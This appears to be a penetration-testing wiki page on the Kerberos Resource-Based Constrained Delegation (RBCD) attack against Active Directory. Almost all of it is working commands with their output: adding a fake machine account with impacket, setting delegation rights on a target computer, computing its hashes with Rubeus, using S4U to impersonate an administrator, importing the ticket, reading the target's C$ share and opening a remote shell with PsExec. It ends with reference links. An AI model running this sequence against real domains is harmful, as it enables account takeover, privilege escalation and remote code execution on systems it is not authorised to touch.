 ```yaml
---
title : "RBCD-attack"
# pre : ' '
description : "Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)."
date : 2021-02-17T15:54:06+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerberos Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)

Resource-Based Constrained Delegation - Generic write abuse.

### Installation

```plain
git clone https://github.com/tothi/rbcd-attack
```

### Rubeus.exe

{{%attachments title="Related files" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Abusing

#### Create the computer object needed for the operation

```plain
$ addcomputer.py -computer-name 'RECEPTION$' -computer-pass JteYeCym2JxkH -dc-ip 10.10.10.10 offsec.nl/jane:'Welkom123!'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account RECEPTION$ with password JteYeCym2JxkH.
```

#### Set rights for impersonation

```plain
$ ./rbcd.py -f RECEPTION -t WIN10-TARGET -dc-ip 10.10.10.10 offsec.nl\\jane:'Welkom123!'
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against WIN10-TARGET$
[*] Initializing LDAP connection to 10.10.10.10
[*] Using offsec.nl\jane account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `RECEPTION` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `WIN10-TARGET`
[*] Delegation rights modified succesfully!
[*] RECEPTION$ can now impersonate users on WIN10-TARGET$ via S4U2Proxy
```

#### Create RC4-HMAC hash for computer object

```plain
Z:\> .\Rubeus.exe hash /password:JteYeCym2JxkH /user:RECEPTION /domain:offsec.nl

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : JteYeCym2JxkH
[*] Input username             : RECEPTION
[*] Input domain               : offsec.nl
[*] Salt                       : offsec.nlRECEPTION
[*]       rc4_hmac             : C3CA46DA95A2B9CAB36C31A3202CE355
[*]       aes128_cts_hmac_sha1 : D9C29470D497E61186549BCC5517E736
[*]       aes256_cts_hmac_sha1 : C4CB81B0428A8384445C981575393BADC6F468396B44D39F166754C5A896FD8A
[*]       des_cbc_md5          : 528F4FE3A219FB6E
```

#### Impersonate any user from the Active Directory

```plain
PS z:\> .\rubeus.exe s4u /user:RECEPTION$ /rc4:C3CA46DA95A2B9CAB36C31A3202CE355 /impersonateuser:JOHNDO-ADM /msdsspn:cifs/WIN10-TARGET.offsec.nl /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: C3CA46DA95A2B9CAB36C31A3202CE355
[*] Building AS-REQ (w/ preauth) for: 'offsec.nl\RECEPTION$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5jCCBO[...REDACTED...]J2aWNlcy5ubA==


[*] Action: S4U

[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2self request for: 'RECEPTION$@offsec.nl'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'JOHNDO-ADM@offsec.nl' to 'RECEPTION$@offsec.nl'
[*] base64(ticket.kirbi):

      doIJHjCCCRqgAwI[...REDACTED...]DAgEBoQgwBhsET0NEJA==

[*] Impersonating user 'JOHNDO-ADM' to target SPN 'cifs/WIN10-TARGET.offsec.nl'
[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2proxy request for service: 'cifs/WIN10-TARGET.offsec.nl'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/WIN10-TARGET.offsec.nl':

      doIKAjCCCf6gAw[...REDACTED...]VJWSUNFUy5OTA==
[+] Ticket successfully imported!
```

#### Check ticket is successfully imported

```plain
PS z:\> klist

Current LogonId is 0:0x7b698

Cached Tickets: (1)

#0>     Client: JOHNDO-ADM @ offsec.nl
        Server: cifs/WIN10-TARGET.offsec.nl @ offsec.nl
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40210000 -> forwardable pre_authent name_canonicalize
        Start Time: 2/17/2021 15:12:51 (local)
        End Time:   2/18/2021 1:12:51 (local)
        Renew Time: 0
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

#### Browse the system using the ticket

```plain
PS z:\> dir \\WIN10-TARGET.offsec.nl\c$

    Directory: \\WIN10-TARGET.offsec.nl\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/27/2018  11:39 AM                Intel
d-----         5/23/2020   8:02 AM                PerfLogs
d-r---         8/19/2020   1:20 PM                Program Files
d-r---         7/10/2020  10:30 AM                Program Files (x86)
da----          2/4/2021   8:11 AM                Temp
d-r---         9/29/2020  10:33 AM                Users
d-----         2/17/2021   2:34 PM                Windows
```

#### Run PsExec

```plain
PS z:\> PsExec.exe \\WIN10-TARGET.offsec.nl cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.18363.1316]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
offsec.nl\JOHNDO-ADM
```

### URL list

* [iRED.team - Kerberos Resource-based Constrained Delegation: Computer Object Take Over](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [Github.com - Abusing Kerberos Resource-Based Constrained Delegation](https://github.com/tothi/rbcd-attack)
* [harmj0y.net - A case study in wagging the dog computer takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
